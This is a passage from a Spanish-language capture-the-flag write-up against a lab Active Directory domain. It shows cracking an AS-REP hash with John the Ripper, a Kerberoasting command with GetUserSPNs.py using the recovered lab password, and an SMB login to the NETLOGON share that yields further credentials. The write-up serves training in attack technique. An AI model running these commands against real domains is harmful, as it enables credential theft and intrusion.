 
Copiamos el hash y lo guardamos en un archivo con el nombre `hash` procedemos a crackear

lo con john the ripper de la siguiente forma.

```bash
john -w=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash
```

![list](/assets/img/vulnnet/Kali-2022-09-19-16-08-25.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Esperamos un poco y optenemos la contraseña que es `tj072889*`. 

Por lo anterior tenemos el dominio + un usuario + una contraseña  podemos probar un ataque [Kerberosting]

```bash
GetUserSPNs.py 'vulnnet-rst.local/t-skid:tj072889*' -dc-ip 10.10.206.89
```

![list](/assets/img/vulnnet/Kali-2022-09-19-16-18-02.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Antes de segir por este camino ya que tenemos usuario y credeciales validas lo que podemos 

hacer loogearnos a al servicion de smb.


Nos logeamos al share de `NETLOGON` en el samba con las credeciales y encontramos un 

archivo.txt con credeciales validas.

```bash
smbclient -U vulnnet-rst.local/t-skid //10.10.244.143/NETLOGON
```

![list](/assets/img/vulnnet/Kali-2022-09-19-16-27-33.png){:.lead width="800" height="100" loading="lazy"}


[ASREPRoast]: https://www.hackplayers.com/2020/11/asreproast-o-as-rep-roasting.html#:~:text=El%20ASREPRoast%20es%20una%20t%C3%A9cnica,requiere%20pre%2Dautenticaci%C3%B3n%20en%20kerberos.
[Kerberosting]: https://www.netwrix.com/cracking_kerberos_tgs_tickets_using_kerberoasting.html
[GetNPUsers.py]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
[reverse-shell]: https://www.revshells.com/
[secretsdump.py]: https://thehackerway.com/2021/05/24/network-hacking-con-impacket-parte-3/#:~:text=Volcado%20de%20%C2%ABWindows%20Secrets%C2%BB%20con,los%20hashes%20NTLM%20del%20sistema.